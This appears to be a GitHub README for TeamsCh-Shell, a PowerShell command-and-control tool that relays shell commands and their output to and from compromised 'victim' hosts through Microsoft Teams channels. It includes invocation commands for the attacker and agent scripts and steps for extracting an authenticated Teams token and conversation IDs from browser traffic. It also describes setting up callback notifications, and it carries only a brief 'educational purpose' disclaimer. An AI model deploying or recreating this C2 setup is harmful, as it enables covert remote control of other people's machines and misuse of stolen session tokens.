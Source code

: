# TeamsCh-Shell

## Overview
This project aims to create a lightweight tool that utilizes the Microsoft Teams Channel API to establish command and control over compromised systems with as few prerequisites as possible. The command and control communication solely abuses the Microsoft Teams Channel API, and no Teams desktop app installation is required.

## Workflow

![426539136-3773069b-f6eb-4ad1-b089-97b684ade053](https://github.com/user-attachments/assets/a9914060-c6fb-442b-a4ec-6bafd3b53f48)



 
## Usage
### Agent
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command
- Outputconversationid  Teams channel conversation ID for the output of the executed command result
- time                  The time interval to check for updated commands in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
### Attacker
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command output
- Outputconversationid  Teams channel conversation ID for the output of the executed command
- time                  The time interval to check for executed command result in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
## Steps to reproduce

1. Create Two Teams Channels:
- One channel is designated for the attacker to transfer system commands that will be received and executed on the victim's host.
> [!NOTE]
> Attacker's Teams token has Read and Write permissions on the channel, while Victim's Teams token has at least Read permission.
- Second channel is used to receive the results of the executed commands from the victim's host, allowing attacker to read the commands results from this channel.
> [!NOTE]  
> Victim's Teams token has Read and Write permissions on the channel, while Attacker's Teams token has at least Read permission.

![2](https://github.com/user-attachments/assets/8b182573-9c9c-4a4b-a00c-326b57ac3c13)
![3](https://github.com/user-attachments/assets/71067e28-06f5-4e06-99a5-a46d7aa8a8f7)


2. Extract token and conversationid of Teams Channels:
- Access the Inspect tool and navigate to the Network tab.
- Send a message in the Teams channel and apply a filter for the keyword 'messages' to filter relevant network traffic.
- Extract the Authenticated Teams token and conversationID from the request.
  
![4](https://github.com/user-attachments/assets/d403b8f8-6b1e-4d63-9590-47b3a0b215e3)


3. Execute TeamsCh-Shell-Attacker.ps1 script on the attacker host and input the command:
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker.ps1 -Outputconversationid "19:952***9e@t***2" -Inputconversationid "19:c92***8a@t***2" -token "eyJ0eXAiOiJ***PykNgVhCEjA"
```

![9](https://github.com/user-attachments/assets/6d72ca39-2273-45e8-a191-feb3961f5302)


4. Execute TeamsCh-Shell-Agent.ps1 script on the victim host:
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent.ps1 -Inputconversationid "19:952***9e@t***2" -Outputconversationid "19:c92***8a@t***2" -token "eyJ0eXAiO***Cu9Jp8l3kF70Ug"
```
![5](https://github.com/user-attachments/assets/a2f855f4-6d84-4511-9d07-f33c8270364a)


5. Shell callback Notification
- Power Automate can set up a condition to check for incoming messages to the channel. If incoming messages are sent to the channel, the condition is triggered, and a notification email will be sent to the inputted email address.

![6](https://github.com/user-attachments/assets/1d23c839-b637-4ade-aed1-baaeca0e4acf)

## Disclaim
san6051 is developed with the intension of using this tool only for educational purpose.
  
## Reference

- [convoC2](https://github.com/cxnturi0n/convoC2) by @cxnturi0n
- [Microsoft-Teams-GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) by @bobbyrsec
- [gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) by @bobbyrsec
